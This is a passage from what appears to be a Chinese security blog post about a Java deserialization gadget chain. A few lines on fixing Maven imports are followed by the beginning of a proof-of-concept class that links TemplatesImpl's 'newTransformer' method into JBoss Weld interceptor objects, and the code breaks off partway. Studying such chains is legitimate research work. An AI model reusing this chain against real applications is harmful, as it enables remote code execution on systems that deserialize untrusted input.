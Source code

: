   
刷新一下
```
Maven
```

  
即可看到我们之前的 POC 大面积爆红:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCs5y3qT7wcxgwHyDs4KXKyv9OLERicMJSsFE3LKnZLWTw8m9YE7A6ricwQ/640?wx_fmt=png&from=appmsg "")  
  
解决方法很简单, 只需要将
```
import
```

  
语法都删掉, 然后通过 IDEA 重新引入一次就行, 最终引入状况:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCsXsgU8fOneyy9gia1BXOoyr6XdeyWV3f6p4ZHrZh0libj3icYjF7ODxIzw/640?wx_fmt=png&from=appmsg "")  
### POC  

```
package com.heihu577;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.jboss.weld.interceptor.builder.InterceptionModelBuilder;
import org.jboss.weld.interceptor.builder.MethodReference;
import org.jboss.weld.interceptor.proxy.DefaultInvocationContextFactory;
import org.jboss.weld.interceptor.proxy.InterceptorMethodHandler;
import org.jboss.weld.interceptor.reader.ClassMetadataInterceptorReference;
import org.jboss.weld.interceptor.reader.DefaultMethodMetadata;
import org.jboss.weld.interceptor.reader.ReflectiveClassMetadata;
import org.jboss.weld.interceptor.reader.SimpleInterceptorMetadata;
import org.jboss.weld.interceptor.spi.instance.InterceptorInstantiator;
import org.jboss.weld.interceptor.spi.metadata.InterceptorReference;
import org.jboss.weld.interceptor.spi.metadata.MethodMetadata;
import org.jboss.weld.interceptor.spi.model.InterceptionModel;
import org.jboss.weld.interceptor.spi.model.InterceptionType;


import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.*;

public class UnserialPOC {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesImpl = getTemplatesImpl();
        Method evilMethod = templatesImpl.getClass().getMethod(&#34;newTransformer&#34;);

        InterceptionModelBuilder builder = InterceptionModelBuilder.newBuilderFor(HashMap.class);
        ReflectiveClassMetadata metadata = (ReflectiveClassMetadata) ReflectiveClassMetadata.of(HashMap.class);
        InterceptorReference interceptorReference = ClassMetadataInterceptorReference.of(metadata);

        Set<InterceptionType> s = new HashSet<>();
        s.add(InterceptionType.POST_ACTIVATE);
        DefaultMethodMetadata methodMetadata = getObjByReflection(DefaultMethodMetadata.class,
                new Class[]{Set.class, MethodReference.class},
                new Object[]{s, MethodReference.of(evilMethod, true)});
```